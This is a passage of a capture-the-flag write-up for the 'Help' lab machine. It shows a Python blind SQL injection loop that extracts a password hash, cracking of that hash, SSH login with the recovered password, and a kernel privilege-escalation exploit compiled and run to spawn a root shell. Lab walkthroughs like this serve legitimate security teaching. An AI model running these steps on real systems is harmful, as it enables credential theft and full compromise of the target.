 ```

# The LIMIT clause can be used to constrain the number of rows returned by the SELECT statement.
# LIMIT takes one or two numeric arguments, which must both be nonnegative integer constants (except when using prepared statements).
# With two arguments:
# - first argument specifies the offset of the first row to return (0=first row of the table)
# - the second specifies the maximum number of rows to return.
# The offset of the initial row is 0 (not 1).

# The SUBSTRING() function extracts some characters from a string.
# SUBSTRING(string, start, length)
# - string    Required. The string to extract from
# - start   Required. The start position. The first position in string is 1
# - length  Required. The number of characters to extract. Must be a positive number

keyspace='abcdef0123456789'
for i in range(45):
    for c in keyspace:
        query=f"substr((select password from staff limit 0,1),{i},1)='{c}'"
        if sql_infer_inject(query):
            print(c, end='',flush=True)
```
we have a ```sql_infer_inject``` function that returns true if the query is evaluated as tru, else returne false.  
now we buld a keyspace (for SHA1) and try to enumerate the hash by evaluating the boolean expression character by character.  
```
[root@kali Help ]$ python3 sql.py                                                                
d318f44739dced66793b1a603028133a76ae680e
```
as we can see, now we have the hash, we can go to [crackstation.net](https://crackstation.net/) paste it, and as result we do get: 'Welcome1'  
Now we can use the discovered password to login via ssh.  
```
[root@kali ~ ]$ ssh -l help $TARGET   
help@10.10.10.121's password:
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Fri Jan 11 06:18:50 2019
help@help:~$
```

## Root
Now that we have shell access, we can start enumerate the box with linpeas.sh.  
Instantly we can see that the kernel is old:  
```
════════════════════════════════════╣ Basic information ╠════════════════════════════════════
OS: Linux version 4.4.0-116-generic (buildd@lgw01-amd64-021) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) ) #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018
```
If we google around for '4.4.0-116-generic kernel privilege escalation', as a first result we can find [this](https://www.exploit-db.com/exploits/44298).  
now we can try to upload the source and compile the code:  
```
help@help:/dev/shm$ gcc exploit.c -o exploit
help@help:/dev/shm$ ./exploit
task_struct = ffff88003693d400
uidptr = ffff88003acc6b44
spawning root shell
root@help:/dev/shm# id
```